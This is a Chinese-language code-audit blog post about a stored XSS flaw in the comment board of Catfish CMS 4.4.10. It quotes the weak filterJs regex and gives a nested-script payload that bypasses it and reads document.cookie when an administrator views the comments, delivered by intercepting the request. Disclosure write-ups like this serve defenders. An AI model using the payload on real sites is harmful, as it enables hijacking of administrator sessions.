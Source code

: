 ```yaml
---
title: Catfish(鲶鱼) CMS V 4.4.10 留言板存储型XSS漏洞
date: 2017-07-11 19:34:56
tags: [代码审计,XSS,漏洞分析]
categories: Web安全
---
```

Catfish(鲶鱼) CMS V 4.4.10 ：http://www.catfish-cms.com/

# 审计

在`...\application\index\controller\Index.php`中，定义了评论功能。代码如下；
```php
//添加评论
$data = [
	'post_id' => Request::instance()->post('id'),
	'url' => 'index/Index/article/id/'.Request::instance()->post('id'),
	'uid' => Session::get($this->session_prefix.'user_id'),
	'to_uid' => $beipinglunren['post_author'],
	'createtime' => date("Y-m-d H:i:s"),
	'content' => $this->filterJs(Request::instance()->post('pinglun')),
	'status' => $plzt
];
Db::name('comments')->insert($data);
```
评论内容content在经过函数filterJs过滤后插入到数据库中。

filterJs定义在`...\application\index\controller\Common.php`中
```php
protected function filterJs($str)
{
        return preg_replace(['/<script[\s\S]*?<\/script>/i','/<style[\s\S]*?<\/style>/i'],'',$str);
}
```
仅做了简单的过滤，只要构造下列payload就可绕过:
```
<scr<script></script>ipt>alert(document.cookie)</scr<script></script>ipt>
```
filterJs会把`<script>**</script>替换为空`，从而使插入到数据库中的数据变为：
```
<script>alert(document.cookie)</script>替换为空
```

# 验证

以普通账户user登陆，并对文章进行评论

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170711/2.jpg?raw=true)

因为Catfish CMS在前端进行了一次编码过滤，若是直接在评论区直接插入payload会被编码转换。所i抓包，将pinglun参数改为payload

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170711/3.jpg?raw=true)

admin登陆后台，触发XSS：

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170711/4.jpg?raw=true)

查看源代码：

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170711/5.jpg?raw=true)
